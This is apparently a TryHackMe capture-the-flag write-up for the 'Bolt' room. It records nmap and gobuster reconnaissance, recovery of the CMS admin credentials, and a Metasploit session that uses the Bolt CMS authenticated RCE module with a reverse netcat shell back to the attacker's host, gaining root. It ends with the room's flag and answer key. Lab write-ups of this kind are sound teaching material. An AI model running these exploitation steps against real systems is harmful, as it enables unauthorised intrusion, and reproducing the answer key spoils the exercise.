






# Write Up for Try Hack Me box - [Bolt](https://tryhackme.com/room/bolt)

This box is based on a vulnerable CMS product that has known exploits to get on the box.

> Pratyush Prakhar (5#1NC#4N) - 08/09/2023


## RECONNAISSANCE

1. Scan the box with nmap. Full file [here](nmap/main.nmap).

**Results**

```bash
$ nmap -vv -sC -sV -oN nmap/main 10.10.6.242    
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-12 02:07 EDT
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 02:07
Completed NSE at 02:07, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 02:07
Completed NSE at 02:07, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 02:07
Completed NSE at 02:07, 0.00s elapsed
Initiating Ping Scan at 02:07
Scanning 10.10.6.242 [2 ports]
Completed Ping Scan at 02:07, 0.26s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 02:07
Completed Parallel DNS resolution of 1 host. at 02:07, 0.01s elapsed
Initiating Connect Scan at 02:07
Scanning 10.10.6.242 [1000 ports]
Discovered open port 22/tcp on 10.10.6.242
Discovered open port 80/tcp on 10.10.6.242
Discovered open port 8000/tcp on 10.10.6.242
Completed Connect Scan at 02:07, 8.18s elapsed (1000 total ports)
Initiating Service scan at 02:07
Scanning 3 services on 10.10.6.242
Warning: Hit PCRE_ERROR_MATCHLIMIT when probing for service http with the regex '^HTTP/1\.0 404 Not Found\r\n(?:[^<]+|<(?!/head>))*?<style>\nbody \{ background-color: #fcfcfc; color: #333333; margin: 0; padding:0; \}\nh1 \{ font-size: 1\.5em; font-weight: normal; background-color: #9999cc; min-height:2em; line-height:2em; border-bottom: 1px inset black; margin: 0; \}\nh1, p \{ padding-left: 10px; \}\ncode\.url \{ background-color: #eeeeee; font-family:monospace; padding:0 2px;\}\n</style>'
Warning: Hit PCRE_ERROR_MATCHLIMIT when probing for service http with the regex '^HTTP/1\.0 404 Not Found\r\n(?:[^<]+|<(?!/head>))*?<style>\nbody \{ background-color: #ffffff; color: #000000; \}\nh1 \{ font-family: sans-serif; font-size: 150%; background-color: #9999cc; font-weight: bold; color: #000000; margin-top: 0;\}\n</style>'
Warning: Hit PCRE_ERROR_MATCHLIMIT when probing for service http with the regex '^HTTP/1\.0 404 Not Found\r\n(?:[^<]+|<(?!/head>))*?<style>\nbody \{ background-color: #fcfcfc; color: #333333; margin: 0; padding:0; \}\nh1 \{ font-size: 1\.5em; font-weight: normal; background-color: #9999cc; min-height:2em; line-height:2em; border-bottom: 1px inset black; margin: 0; \}\nh1, p \{ padding-left: 10px; \}\ncode\.url \{ background-color: #eeeeee; font-family:monospace; padding:0 2px;\}\n</style>'
Warning: Hit PCRE_ERROR_MATCHLIMIT when probing for service http with the regex '^HTTP/1\.0 404 Not Found\r\n(?:[^<]+|<(?!/head>))*?<style>\nbody \{ background-color: #ffffff; color: #000000; \}\nh1 \{ font-family: sans-serif; font-size: 150%; background-color: #9999cc; font-weight: bold; color: #000000; margin-top: 0;\}\n</style>'
Completed Service scan at 02:08, 25.49s elapsed (3 services on 1 host)
NSE: Script scanning 10.10.6.242.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 02:08
Completed NSE at 02:08, 6.21s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 02:08
Completed NSE at 02:08, 0.84s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 02:08
Completed NSE at 02:08, 0.00s elapsed
Nmap scan report for 10.10.6.242
Host is up, received syn-ack (0.21s latency).
Scanned at 2023-08-12 02:07:42 EDT for 41s
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:85:ec:54:f2:01:b1:94:40:de:42:e8:21:97:20:80 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDaKxKph/4I3YG+2GjzPjOevcQldxrIll8wZ8SZyy2fMg3S5tl5G6PBFbF9GvlLt1X/gadOlBc99EG3hGxvAyoujfdSuXfxVznPcVuy0acAahC0ohdGp3fZaPGJMl7lW0wkPTHO19DtSsVPniBFdrWEq9vfSODxqdot8ij2PnEWfnCsj2Vf8hI8TRUBcPcQK12IsAbvBOcXOEZoxof/IQU/rSeiuYCvtQaJh+gmL7xTfDmX1Uh2+oK6yfCn87RpN2kDp3YpEHVRJ4NFNPe8lgQzekGCq0GUZxjUfFg1JNSWe1DdvnaWnz8J8dTbVZiyNG3NAVAwP1+iFARVOkiH1hi1
|   256 77:c7:c1:ae:31:41:21:e4:93:0e:9a:dd:0b:29:e1:ff (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBE52sV7veXSHXpLFmu5lrkk8HhYX2kgEtphT3g7qc1tfqX4O6gk5IlBUH25VUUHOhB5BaujcoBeId/pMh4JLpCs=
|   256 07:05:43:46:9d:b2:3e:f0:4d:69:67:e4:91:d3:d3:7f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINZwq5mZftBwFP7wDFt5kinK8mM+Gk2MaPebZ4I0ukZ+
80/tcp   open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
8000/tcp open  http    syn-ack (PHP 7.2.32-1)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-generator: Bolt
| fingerprint-strings:  
......
```

2. There are **3 TCP** ports open. 
	1. *Port 22* - SSH - **OpenSSH 7.6p1**
	2. *Port 80* - HTTP - **Apache httpd 2.4.29**
	3. *Port 8000* - HTTP - **Bolt CMS**

3. Let's actively enumerate them all.


## SSH

1. OpenSSH installed. Will require a set of login credentials to get access through this path.
2. We can keep this for later.

**Output**
```bash
$ ssh 10.10.6.242                 
The authenticity of host '10.10.6.242 (10.10.6.242)' can't be established.
ED25519 key fingerprint is SHA256:e1qiq3Gpe8kdF5iw8bxPh9T4IgoUlUqClso+H6525EE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.6.242' (ED25519) to the list of known hosts.
kali@10.10.6.242's password: 
Permission denied, please try again.
```

## WEB

1. Let's first check out the web server on port 80. 
	1. We get the `default Apache` page.
	2. We can run sub domain check on this port using `gobuster`.
\

\

**Output**

```bash
$ gobuster dir -o port_80.txt -t50 -e php,html,txt -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.6.242
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.6.242
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
2023/08/12 02:37:07 Starting gobuster in directory enumeration mode
===============================================================
http://10.10.6.242/server-status        (Status: 403) [Size: 276]
Progress: 213149 / 220561 (96.64%)^C
[!] Keyboard interrupt detected, terminating.

===============================================================
2023/08/12 02:52:19 Finished
===============================================================
```

2. Let's check out the web server on port 8000. We know that it has `bolt` as the web page creator. Let's do some enumeration on the web page.
	1. Check the `/robots.txt` file for some disallowed accesses.
	2. We can check for some low hanging fruits.
	3. Page Source check. 
\

\
\

\
\



3. We find from the posts of the Admin Jake that the username:password for the CMS is `bolt:boltadmin123`. Let's now find the login page.

4. The login page can be found at the bolt subdomain as explained [here](https://github.com/bolt/site-bolt-cm/blob/master/app/config/config.yml).
\


5. Let's login using the given credentials. We get the Bolt CMS version as `3.7.1`. We can use this to find any known CVE in it.
\


6. Using ExploitDB `(searchsploit)`, Rapid7 to find a known CVE () in the [3.7.0 version](https://www.rapid7.com/db/modules/exploit/unix/webapp/bolt_authenticated_rce/). We can use the searchsploit as well for the same. 

**Output**

```bash
$ searchsploit bolt cms      
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Bolt CMS 3.6.10 - Cross-Site Request Forgery  | php/webapps/47501.txt
Bolt CMS 3.6.4 - Cross-Site Scripting         | php/webapps/46495.txt
Bolt CMS 3.6.6 - Cross-Site Request Forgery / | php/webapps/46664.html
Bolt CMS 3.7.0 - Authenticated Remote Code Ex | php/webapps/48296.py
Bolt CMS < 3.6.2 - Cross-Site Scripting       | php/webapps/46014.txt
CMS Bolt - Arbitrary File Upload (Metasploit) | php/remote/38196.rb
---------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

7. Let's use the Metasploit exploit with the [credentials](web/creds.txt) obtained earlier to get the foothold in the system.


## INITIAL ACCESS/ RCE

1. We use the `exploit/unix/webapp/bolt_authenticated_rce` msf module with the admin credentials from earlier to get the foothold on the box.

**Output**

```bash
msf6 > search bolt cms

Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/unix/webapp/bolt_authenticated_rce  2020-05-07       great      Yes    Bolt CMS 3.7.0 - Authenticated Remote Code Execution
   1  exploit/multi/http/bolt_file_upload         2015-08-17       excellent  Yes    CMS Bolt File Upload Vulnerability


Interact with a module by name or index. For example info 1, use 1 or use exploit/multi/http/bolt_file_upload                                                   

msf6 > use 0
[*] Using configured payload cmd/unix/reverse_netcat
msf6 exploit(unix/webapp/bolt_authenticated_rce) > options

Module options (exploit/unix/webapp/bolt_authenticated_rce):

   Name               Current Setting    Required  Description
   ----               ---------------    --------  -----------
   FILE_TRAVERSAL_PA  ../../../public/f  yes       Traversal path from "/files
   TH                 iles                         " on the web server to "/ro
                                                   ot" on the server
   PASSWORD                              yes       Password to authenticate wi
                                                   th
   Proxies                               no        A proxy chain of format typ
                                                   e:host:port[,type:host:port
                                                   ][...]
   RHOSTS                                yes       The target host(s), see htt
                                                   ps://docs.metasploit.com/do
                                                   cs/using-metasploit/basics/
                                                   using-metasploit.html
   RPORT              8000               yes       The target port (TCP)
   SSL                false              no        Negotiate SSL/TLS for outgo
                                                   ing connections
   SSLCert                               no        Path to a custom SSL certif
                                                   icate (default is randomly
                                                   generated)
   TARGETURI          /                  yes       Base path to Bolt CMS
   URIPATH                               no        The URI to use for this exp
                                                   loit (default is random)
   USERNAME                              yes       Username to authenticate wi
                                                   th
   VHOST                                 no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to
                                       listen on. This must be an address on t
                                       he local machine or 0.0.0.0 to listen o
                                       n all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be s
                                     pecified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   Linux (cmd)


View the full module info with the info, or info -d command.

msf6 exploit(unix/webapp/bolt_authenticated_rce) > set RHOSTS *********
RHOSTS => 10.10.162.118
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set USERNAME *********
USERNAME => bolt
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set PASSWORD *********
PASSWORD => boltadmin123
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set LHOST tun0
LHOST => 10.13.5.5
msf6 exploit(unix/webapp/bolt_authenticated_rce) > options

Module options (exploit/unix/webapp/bolt_authenticated_rce):

   Name               Current Setting    Required  Description
   ----               ---------------    --------  -----------
   FILE_TRAVERSAL_PA  ../../../public/f  yes       Traversal path from "/files
   TH                 iles                         " on the web server to "/ro
                                                   ot" on the server
   PASSWORD           *********          yes       Password to authenticate wi
                                                   th
   Proxies                               no        A proxy chain of format typ
                                                   e:host:port[,type:host:port
                                                   ][...]
   RHOSTS             10.10.162.118      yes       The target host(s), see htt
                                                   ps://docs.metasploit.com/do
                                                   cs/using-metasploit/basics/
                                                   using-metasploit.html
   RPORT              8000               yes       The target port (TCP)
   SSL                false              no        Negotiate SSL/TLS for outgo
                                                   ing connections
   SSLCert                               no        Path to a custom SSL certif
                                                   icate (default is randomly
                                                   generated)
   TARGETURI          /                  yes       Base path to Bolt CMS
   URIPATH                               no        The URI to use for this exp
                                                   loit (default is random)
   USERNAME           ****               yes       Username to authenticate wi
                                                   th
   VHOST                                 no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to
                                       listen on. This must be an address on t
                                       he local machine or 0.0.0.0 to listen o
                                       n all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/unix/reverse_netcat):
>
   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  *********        yes       The listen address (an interface may be s
                                     pecified)
   LPORT  ****             yes       The listen port

>
Exploit target:

   Id  Name
   --  ----
   2   Linux (cmd)


View the full module info with the info, or info -d command.

msf6 exploit(unix/webapp/bolt_authenticated_rce) > exploit

[*] Started reverse TCP handler on 10.13.5.5:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Successfully changed the /bolt/profile username to PHP $_GET variable "jeqhey".
[*] Found 2 potential token(s) for creating .php files.
[+] Deleted file lmpnfitomox.php.
[+] Used token c925498ee60f13926398453f59 to create xqhmfgwkxox.php.
[*] Attempting to execute the payload via "/files/xqhmfgwkxox.php?jeqhey=`payload`"
[!] No response, may have executed a blocking payload!
[*] Command shell session 2 opened (10.13.5.5:4444 -> 10.10.162.118:57122) at 2023-08-12 16:42:27 -0400
[+] Deleted file xqhmfgwkxox.php.
[+] Reverted user profile back to original state.

bash
sh
whoami
root
pwd
/home/bolt/public/files
ls -la
total 16
drwxrwxrwx 2 501 staff 4096 Aug 12 20:42 .
drwxr-xr-x 7 501 staff 4096 Jul 18  2020 ..
-rw-r--r-- 1 501 staff  195 May  7  2020 .htaccess
-rw-r--r-- 1 501 staff    4 May  7  2020 index.html
cd /home
ls -la
total 288
drwxr-xr-x  3 root root   4096 Jul 18  2020 .
drwxr-xr-x 27 root root   4096 Jul 18  2020 ..
drwxr-xr-x 10 bolt bolt   4096 Jul 18  2020 bolt
-rw-r--r--  1 root root 277509 Jul 18  2020 composer-setup.php
-rw-r--r--  1 root root     34 Jul 18  2020 flag.txt
cat flag.txt
THM{wh0_d035nt_l0ve5_b0l7_r1gh7?}
```

2. We get a `root` user access on the system. Now let's search for the flag file.

3. We find it in `/home` directory. 

4. We have **pawned** the box people!!!! You have the keys to the castle, have fun.


## Answers to complete the box
	
1. What port number has a web server with a CMS running? - **8000**

2. What is the username we can find in the CMS? - **bolt**

3. What is the password we can find for the username? - **boltadmin123**

4. What version of the CMS is installed on the server? (Ex: Name 1.1.1) - **Bolt 3.7.1**

5. There's an exploit for a previous version of this CMS, which allows authenticated RCE. Find it on Exploit DB. What's its EDB-ID? - **48296**

6. Metasploit recently added an exploit module for this vulnerability. What's the full path for this exploit? (Ex: exploit/....) - **exploit/unix/webapp/bolt_authenticated_rce**

7. Look for flag.txt inside the machine. - **THM{wh0_d035nt_l0ve5_b0l7_r1gh7?}**


**Stay Tuned On**\
[Github](https://github.com/pratty010/Boxes)\
[LinkedIn](https://www.linkedin.com/in/pratyush-prakhar/)